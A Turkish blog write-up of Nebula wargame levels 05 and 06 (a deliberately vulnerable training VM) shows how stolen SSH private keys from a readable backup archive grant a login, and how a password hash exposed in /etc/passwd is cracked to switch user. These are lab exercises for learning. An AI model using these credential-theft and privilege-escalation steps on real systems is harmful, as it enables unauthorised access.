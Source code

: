 ```yaml
---
layout: post
title: "Nebula Write Up-2"
date: 2018-02-28
excerpt: "[Level 05-Level 09]"
comments: false
---
```

### Level 05

/home/flag05 dizininde, izinleri hatalı olabilecek olan bir dizin arıyoruz. 
{% raw %}
    level05@nebula:/home/flag05$ ls -al
    total 5
    drwxr-x--- 1 flag05 level05  100 2012-08-18 03:22 .
    drwxr-xr-x 1 root   root      80 2012-08-27 07:18 ..
    drwxr-xr-x 2 flag05 flag05    42 2011-11-20 20:13 .backup
    -rw-r--r-- 1 flag05 flag05   220 2011-05-18 02:54 .bash_logout
    -rw-r--r-- 1 flag05 flag05  3353 2011-05-18 02:54 .bashrc
    -rw-r--r-- 1 flag05 flag05   675 2011-05-18 02:54 .profile
    drwx------ 1 flag05 flag05   100 2011-11-20 03:07 .ssh
{% endraw %}
Dikkatimizi çeken .ssh ve .backup dizinleri. Fakat .ssh dizininin izinleri olması gerektiği gibi. .backup dizinini kurcalamaya devam ediyoruz.
> Bir dizin için ls komutunu kullanabilmek için  okuma(r) , cd komutunu kullanabilmek için çalıştırma(x) iznimizin bulunması gerekir.
{% raw %}
    level05@nebula:/home/flag05$ cd .backup
    level05@nebula:/home/flag05/.backup$
    drwxr-x--- 1 flag05 flag05    100  2011-11-20 03:22 .
    drwxr-xr-x 1 flag05 level05    80  2012-08-18 07:18 ..
    -rw-rw-r-- 1 flag05 flag05   1826  2011-11-20 20:13 backup-19072011.tgz
{% endraw %}
Yeterli izinlerimizin olmaması sebebiyle tar dosyasını bulunduğumuz yerde açamıyoruz. 
{% raw %}
    level05@nebula:/home/flag05/.backup$ cp backup-19072011.tgz /tmp
    level05@nebula:/home/flag05/.backup$ cd /tmp
    level05@nebula:/tmp$ ls -l
    -rw-rw-r-- 1 level05 level05   1826  2011-11-20 20:13 backup-19072011.tgz
    level05@nebula:/tmp$ tar -xvf backup-19072011.tgz
    .ssh/
    .ssh/id_rsa.pub
    .ssh/id_rsa
    .ssh/authorized_keys
{% endraw %}
flag05 kullanıcısının home dizininde bulunan ssh dizini, tar dosyasından çıkan anahtarları kullanarak ssh bağlantısı yapabileceğimiz fikrini veriyor.Ayrıca level05 kullanıcısının home dizinine baktığımızda halihazırda bir ssh dizini olduğunu görüyoruz.
Tar dosyasından çıkan anahtarların hangi kullanıcı tarafından oluşturulduğunu bilmediğimiz için anahtarların tamamını level05 kullanıcısının ssh dizinine kopyalıyoruz.
{% raw %}
    level05@nebula:/tmp$ cp .ssh/* /home/level05/.ssh
    level05@nebula:/tmp$ ssh flag05@nebula
    The authenticity of host 'nebula (127.0.1.1)' can't be established.  
    ECDSA key fingerprint is ea:8d:09:1d:f1:69:e6:1e:55:c7:ec:e9:76:a1:37:f0.  
    Are you sure you want to continue connecting (yes/no)? yes  
    Warning: Permanently added 'nebula' (ECDSA) to the list of known hosts.

          _   __     __          __
         / | / /__  / /_  __  __/ /___ _
        /  |/ / _ \/ __ \/ / / / / __ `/
      / /|  /  __/ /_/ / /_/ / / /_/ /
      /_/ |_/\___/_.___/\__,_/_/\__,_/

    exploit-exercises.com/nebula

    For level descriptions, please see the above URL.

    To log in, use the username of "levelXX" and password "levelXX", where  
    XX is the level number.

    Currently there are 20 levels (00 - 19).

    Welcome to Ubuntu 11.10 (GNU/Linux 3.0.0-12-generic i686)

    * Documentation:  https://help.ubuntu.com/
    Your Ubuntu release is not supported anymore.  
    For upgrade information, please visit:  
    http://www.ubuntu.com/releaseendoflife

    New release '12.04.3 LTS' available.  
    Run 'do-release-upgrade' to upgrade to it.

    The programs included with the Ubuntu system are free software;  
    the exact distribution terms for each program are described in the  
    individual files in /usr/share/doc/*/copyright.

    Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by  
    applicable law.

    flag05@nebula:~$ /bin/getflag  
    You have successfully executed getflag on a target account  
{% endraw %}
### Level 06
flag06 kullanıcına ait bilgilerin eski bir unix sistemden geldiği bilgisi verilmiş. Credentials kelimesi ilk olarak /etc/passwd ve /etc/shadow dosyalarını hatırlatıyor. Fakat /etc/shadow dosyasını okumak için gerekli izinlerimiz bulunmadığı için /etc/passwd dosyasını kurcalıyoruz.
{% raw %}
    level06@nebula:~$ cat /etc/passwd | grep flag06
    flag06:ueqwOCnSGdsuM:993:993::/home/flag06:/bin/sh
{% endraw %}
> /etc/passwd dosyası tüm kullanıcılar tarafından okunabildiği için, şifrelenmiş parolalar bu dosyada gösterilmez.Parolalar şifrelenmiş bile olsa parola-kırma araçlarıyla bu parolaları kırmak mümkün olabilir.Bu nedenle parolalar x ile temsil edilir. 


Burda ise şifrelenmişde olsa flag06 kullanıcısına ait parola, tüm kullanıcılar tarafından okunabilir olan /etc/passwd dosyasında gösterilmiş. 


> John The Ripper Kali Linux, Parrot gibi güvenlik dağıtımlarında hazır olarak gelen ve en çok bilinen parola kırma araçlarından biridir
<figure >
	<a href="/assets/img/xx.png"><img src="/assets/img/xx.png"></a>
	
</figure>
{% raw %}
    level06@nebula:~$ su flag06
    Password: //hello
    flag06@nebula:/home/level06$ /bin/getflag
     You have successfully executed getflag on a target account  
{% endraw %}
